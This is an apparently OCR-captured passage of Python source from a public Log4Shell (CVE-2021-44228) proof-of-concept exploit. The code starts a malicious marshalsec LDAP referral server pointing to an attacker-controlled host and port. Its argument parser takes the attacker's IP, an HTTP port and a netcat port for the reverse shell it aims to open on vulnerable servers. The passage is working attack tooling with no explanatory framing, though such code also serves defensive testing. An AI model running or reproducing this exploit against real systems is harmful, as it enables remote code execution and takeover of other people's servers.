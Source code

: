 ```python
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```
